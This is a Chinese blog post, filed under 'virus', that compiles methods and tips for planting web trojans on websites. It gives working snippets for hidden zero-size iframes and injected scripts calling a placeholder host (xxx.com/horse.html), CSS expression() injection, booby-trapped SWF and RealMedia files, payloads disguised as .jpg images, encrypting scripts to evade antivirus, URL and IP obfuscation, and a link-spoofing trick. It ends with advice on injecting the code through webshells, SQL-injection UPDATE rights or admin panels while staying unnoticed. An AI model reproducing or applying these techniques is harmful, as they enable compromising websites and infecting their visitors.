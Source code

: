 <!--yml
category: 病毒
date: 2022-11-04 11:45:54
-->

# 网页挂马方法和技巧大汇总 - 嘎子哥~ - 博客园

> 来源：[https://www.cnblogs.com/baocheng/p/3898850.html](https://www.cnblogs.com/baocheng/p/3898850.html)

**1，挂马的N种方法** 　　**(1) HTML挂马法。** 
　　常规的HTML挂马方法一般是在网页中插入一条iframe语句，像<iframe src=http://www.xxx.com/horse.html width=0 height=0></iframe>。查看站点是否被挂，一般是查找一下关键词iframe。 
　　**(2) 再隐藏一点的就是js挂马了。** 　　像再原来的网页中写入<script str=http://www.xxx.com/horse.js></script>，horse里的js写法一般为 document.write(’http:\/\/www.xxx.com\/horse.html’>;，或者专业一点的写法是 top.document.body.innerHTML = top.document.body.innerHTML + ‘\r\n<inframe src=”http://www.xxx.com/horse.htm/”></iframe>’;。不过第2种写法要注意：是原来的网页种要有body标签。 
**　　(3) 在 css中挂马**。 
　　这个方法就是在css中写入： 
　　body { 
hytop:expression(top.document.body.innerHTML = top.document.body.innerHTML + ‘\r\n<iframe src=”http://www.xxx.com/horse.html/”></iframe>’); 
} 
　　然后在主页中调用这个CSS，代码类似 这样的。在csdn 中对expression的解释是：IE5及其以后版本支持在CSS中使用expression，用来吧CSS属性和Javascript表达式关联起来，这里的CSS属性可以是元素固有的属性，也可以是自定义属性。也就是说CSS属性后面可以是一段Javasccript表达式，CSS属性的值等于 Javascript表达式计算的结果。在表达式中可以是直接一用元素自身的属性和方法，也可以使用其它浏览器对象。这个表达式就好像是在这个元素的一个成员函数中一样。整个解释关键点是expression可以在css中引入js语句，所以我们可用于挂马。不过写的语句值可以远程调用，本地不可以。 
**(4) 在swf中挂马** 　　网上有一些swf挂马的工具，可以用工具替换原来网页中的swf或单独把swf发给对方，一可以单独作一个可显示swf页的网页。在网页中插入swf的语法一般格式为： 
　　<OBJECT classid=clsid:D27CDB6E-AE6D-11cf-96B8-444553540000 codebase=http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=5.0.0.0 WIDTH=760 NAME=quality VALUE=high> <EMBED src=”http://www.7747.net/xxx.swf” quality=high pluginspage=http://www.macromedia.com/shockwave/download/index.cgi?P1_Prod_Version=ShockwaveFlash type=application/x-shockwave-flash width=760 height=60></EMBED></OBJECT> 
**(5) 在影音文件中挂马** 　　所需工具是RealMedia Editor，打开工具后，然后依次选择“文件”-“打开Real媒体文件”，然后选择需要编辑的视频文件，其格式必须是RealOne公司的以RM或 RMVB为扩展名的文件。接着，新建一个文本，在里面输入u 00:00:10:0 00:00:30.0&&_rpexternal&&http://www.xxx.com/horse.htm 
　　(00:00:10.0就是发生第一事件的时间，这里是让计算机弹出网页;00:00:30.0同样，这是第二次发生的时间，在0时0分第30秒0微妙时弹出窗口;而后面的URL地址就是连接指定的木马地址。) 
　　输入完毕后并保存，然后依次选择“工具”-“合并事件”，导入刚才的文本。当合并完成后，依次选择“文本”-“Real文件另存为”，保存好即可。 
　　最后把生成的视频文件发布网上，当对方观看同时就会连接到你指定的木马地址。 
**　　2，挂马的技巧** 
　　挂马首先要求的是隐蔽性，这样挂的时间才能长。像在SWF、JS、RM中挂马就是比较隐蔽了，但是还可再用到些技巧。 
**(1)远程任意后缀执行HTML** 　　可以把horse.html成horse.jpg之类的后缀，然后语句写成<iframe src=/uploadfile/200902/20090220105353594.jpg width=0 height=0></iframe>。js也可以，语句为<script src=/uploadfile/200902/20090220105353594.jpg></script>，甚至js的不要后缀名都可以。 
**　　(2)JS的加密** 
　　为了保护网页木马的代码，可以把JS内容加密，还能躲开杀软的作用。如果使用ENCODE加密方式，加密后的JS调用语句就用。除此方法外，还有其它更多的方法! 
　　(3)URL的变形 
　　URL的变形方法也有很多，例如将url的16进制转换为encod编码等。如果是涉及到URL欺骗的方法就更多了，不过多数的URL欺骗，像利用@的技巧，IE都已经打补丁了。但现在有个漏洞仍然有效，代码如下： 
　　<a id=”CZY” href=”http://www.baidu.com”></a> 
　　<div> 
　　<a href=”http://www.google.cn” target=”_blank”> 
　　<table> 
　　<caption> 
　　<a href=”http://www.google.cn” target=”_blank”> 
　　<label for=”CZY”> 
　　<u style=”cursor: pointer: color: blue”> 
　　Google</u> 
　　</label></a></caption></table></a></div> 
　　保存该代码为网页后，鼠标移动到Google这个链接上时，IE状态栏显示的是http://www.google.cn，但点击链接后却打开http: //www.baidu.com网站。如果你的网马可以用IP地址访问到的话，IP地址也可以进行转换的。像127.0.0.1这样的IP还可以变为 2130706433、0×7f.0×00.0×00.0×01、0177.0000.0000.0001等等，这只不过是8进制、10进制、16进制、的转换而已。 
**3,如何才能挂到马** 　　拿到了webshell的话，挂马自然是很简单了。但是拿不到的情况下，如果注入点有update权限，我们可以仔细查找首页中的某条新闻的调用链接，然后update数据库达到我们的目的。如果可进入后台，我没就可以在一些发公告的地方写入自己的木马代码(不过千万别打乱前台html源文件里的代码逻辑)。
